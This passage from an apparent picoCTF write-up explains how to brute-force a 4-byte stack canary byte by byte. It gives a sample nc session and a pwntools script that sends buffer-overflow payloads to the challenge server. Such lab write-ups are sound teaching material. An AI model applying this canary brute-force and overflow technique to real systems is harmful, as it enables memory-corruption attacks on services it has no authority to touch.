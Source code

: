 We can bruteforce from 0x00 to 0xff for the canary value. Since `CANARY_SIZE` is 4 bytes, we only need to bruteforce for 4 bytes.

An example of guessing the correct canary value:
```
nc saturn.picoctf.net 63900
How Many Bytes will You Write Into the Buffer?
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB
Input> Ok... Now Where's the Flag?
```

Using python, we can run a script to bruteforce:
```py
from pwn import *
import struct

context.update(arch='i386', os='linux')

canary_size = 0
offset = 64
length = offset + 1
canary_value = b''

while True:
    if(canary_size == 4):
        print(f'Final canary_value is: {canary_value} ')
        break

    for i in range(0,256):
        elf = ELF('./vuln4')
        #p = elf.process()
        p = remote('saturn.picoctf.net', 63900)

        brute_value = struct.pack("<B", i)

        test_value = canary_value + brute_value

        payload = [
            b'A'*offset,
            test_value
        ]

        payload = b''.join(payload)
        print(payload)

        p.sendline(bytes(str(length), encoding='utf8'))
        p.recvline()
        p.sendline(payload)
        output = p.recvline()
        p.close()
        if(b'Stack Smashing Detected' not in output):
            print(f'Canary value found: {brute_value}')
            canary_value += brute_value
            length+= 1
            canary_size+= 1
            break
```
